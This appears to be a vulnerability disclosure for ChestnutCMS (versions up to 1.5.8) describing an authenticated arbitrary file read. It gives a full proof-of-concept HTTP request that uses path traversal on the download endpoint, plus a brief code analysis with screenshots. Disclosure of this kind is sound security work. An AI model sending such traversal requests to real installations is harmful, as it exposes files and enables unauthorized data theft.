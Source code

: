 ## Vulnerability version:
ChestnutCMS <= 1.5.8

## Product supplier:
https://gitee.com/liweiyi/ChestnutCMS

## Vulnerability type:
Arbitrary File Read

## Vulnerability description:
ChestnutCMS is an enterprise-level content management system with front and back end separation.Before version 1.5.8, the system supported read any file after login. 

1.create a test.txt in the upload directory,content is "aaaa"

![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231105579.png)

2.create a test.txt in D:\ ,content is "abc"

![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231104395.png)

3.it is normally to read the test.txt in the upload directory

![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231102703.png)

4.then we can read the test.txt in D:\
```
GET /dev-api/common/download?path=../../../test.txt HTTP/1.1
Host: 192.168.233.31
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Authorization=fa2792a3-abf9-41fa-a228-979308b2dce1; Admin-Token=fa2792a3-abf9-41fa-a228-979308b2dce1
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```


![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231103903.png)

## Code analysis

the base_url
![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231123483.png)

![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231113956.png)

it do not check any and go to the Files.copy function
![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231323389.png)
